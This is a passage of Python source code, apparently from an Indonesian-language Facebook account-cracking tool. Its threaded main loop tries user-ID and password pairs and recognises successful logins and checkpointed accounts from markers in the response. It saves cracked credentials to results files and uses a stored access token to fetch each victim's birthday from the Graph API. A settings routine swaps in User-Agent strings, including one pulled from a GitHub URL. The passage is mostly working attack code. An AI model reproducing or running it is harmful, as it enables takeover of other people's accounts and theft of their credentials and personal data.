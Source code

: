 				xo = rex.content
				if 'mbasic_logout_button' in xo or 'save-device' in xo:
					print('\r  \033[0;92m* --> ' +uid+ '|' + asu + '       ')
					ok.append(uid+'|'+asu)
					save = open('results/OK-%s-%s-%s.txt' % (ha, op, ta),'a') 
					save.write('  * --> '+str(uid)+'|'+str(asu)+'\n')
					save.close()
					break
					continue
				if 'checkpoint' in xo:
					try:
						token = open('login.txt').read()
						url = ("https://graph.facebook.com/"+uid+"?access_token="+token)
						data = s.get(url).json()
						ttl = data['birthday'].replace("/","-")
						print('\r  \033[0;93m* --> ' +uid+ '|' + asu + '|' + ttl)
						cp.append(uid+'|'+asu+'|'+ttl)
						save = open('results/CP-%s-%s-%s.txt' % (ha, op, ta),'a') 
						save.write('  * --> '+str(uid)+'|'+str(asu)+'|'+ttl+'\n')
						save.close()
						break
					except(KeyError, IOError):
						ttl = " "
					except:pass
					print('\r  \033[0;93m* --> ' +uid+ '|' + asu + '       ')
					cp.append(uid+'|'+asu)
					save = open('results/CP-%s-%s-%s.txt' % (ha, op, ta),'a') 
					save.write('  * --> '+str(uid)+'|'+str(asu)+'\n')
					save.close()
					break
					continue
			
			loop += 1
		except:
			pass
	p = ThreadPool(20)
	p.map(main, id)
	exit("\n \033[0;97m[\033[0;96m#\033[0;97m] Selesai")
	
### SETTING UA
def settua():
	ask = raw_input("\n \033[0;97m[\033[0;93m?\033[0;97m] Anda ingin mengganti User Agent? [Y/t] : ") 
	if ask =="":
		menu()
	elif ask == "y" or ask == "Y":
		try:
			print("\n \033[0;97m[\033[0;93m*\033[0;97m] Ketik di pencarian chrome : My User Agent")
			ua = raw_input(" \033[0;97m[\033[0;96m+\033[0;97m] User Agent : ") 
			uas = open(".ua","w")
			uas.write(ua) 
			uas.close()
			print(" \033[0;97m[\033[0;92m✓\033[0;97m] Sukses mengganti User-Agent")
			time.sleep(2)
			menu()
		except KeyboardInterrupt:
			exit()
	elif ask == "t" or ask == "T":
		try:
			ua = s.get("https://raw.githubusercontent.com/Dumai-200/Server-Dmbf/main/ua.txt").text.strip()
			uas = open(".ua","w")
			uas.write(ua) 
			uas.close()
			print("\n \033[0;97m[\033[0;92m✓\033[0;97m] Sukses mengganti User-Agent")
			time.sleep(2)
